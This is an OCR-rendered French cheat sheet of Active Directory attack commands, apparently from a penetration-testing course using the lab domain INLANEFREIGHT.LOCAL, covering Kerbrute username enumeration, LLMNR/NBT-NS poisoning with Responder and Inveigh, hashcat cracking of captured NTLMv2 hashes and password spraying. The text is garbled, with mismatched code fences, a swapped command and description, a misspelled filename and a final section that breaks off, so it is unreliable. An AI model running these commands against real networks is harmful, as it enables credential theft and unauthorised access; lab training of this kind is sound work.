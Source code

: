 ```shell
### Utilisée pour compiler un binaire Kerbrute pour plusieurs plateformes OS et architectures CPU.
```bash
`sudo make all`
```shell
### Utilisée pour tester le binaire Kebrute compilé choisi depuis un hôte basé sur Linux.
```bash
`./kerbrute_linux_amd64`
```shell
### Utilisée pour déplacer le binaire Kerbrute dans un répertoire qui peut être défini dans le chemin d'un utilisateur Linux. Facilitant l'utilisation de l'outil.
```bash
`sudo mv kerbrute_linux_amd64 /usr/local/bin/kerbrute`
```shell
### Exécute l'outil Kerbrute pour découvrir les noms d'utilisateurs dans le domaine (INLANEFREIGHT.LOCAL) spécifié après l'option -d et le contrôleur de domaine associé spécifié après --dc en utilisant une liste de mots et enregistre (-o) les résultats dans un fichier spécifié. Exécuté depuis un hôte basé sur Linux.
```bash
`./kerbrute_linux_amd64 userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o kerb-results`
```shell
## Empoisonnement LLMNR/NTB-NS

### Utilisée pour afficher les instructions d'utilisation et les diverses options disponibles dans Responder depuis un hôte basé sur Linux.
```bash
`responder -h`
```shell
### Utilise hashcat pour cracker les hash NTLMv2 (-m) qui ont été capturés par responder et sauvegardés dans un fichier (frond_ntlmv2). Le craquage est effectué sur la base d'une liste de mots spécifiée.
```bash
`hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt`
```shell
### Utilise le cmdlet Import-Module de PowerShell pour importer l'outil basé sur Windows Inveigh.ps1.
```bash
`Import-Module .\Inveigh.ps1`
```shell
### Utilisée pour afficher de nombreuses options et fonctionnalités disponibles avec Invoke-Inveigh. Exécutée depuis un hôte basé sur Windows.
```bash
`(Get-Command Invoke-Inveigh).Parameters`
```shell
### Démarre Inveigh sur un hôte basé sur Windows avec l'usurpation LLMNR et NBNS activée et enregistre les résultats dans un fichier.
```bash
`Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y`
```shell
### Démarre l'implémentation C# d'Inveigh depuis un hôte basé sur Windows.
```bash
`.\Inveigh.exe`
```shell
### foreach { Set-ItemProperty -Path "$regkey\$($_.pschildname)" -Name NetbiosOptions -Value 2 -Verbose}
```bash
`$regkey = "HKLM:SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces" Get-ChildItem $regkey \
```shell
## Pulvérisation de Mots de Passe et Politiques de Mots de Passe

### Script Bash utilisé pour générer 16,079,616 combinaisons de noms d'utilisateurs possibles depuis un hôte basé sur Linux.
```bash
`#!/bin/bash for x in {A..Z}{A..Z}{A..Z}{A..Z} do echo $x; done`
```shell
### Utilise CrackMapExec et des identifiants valides (avazquez:Password123) pour énumérer la politique de mot de passe (--pass-pol) depuis un hôte basé sur Linux.
```bash
```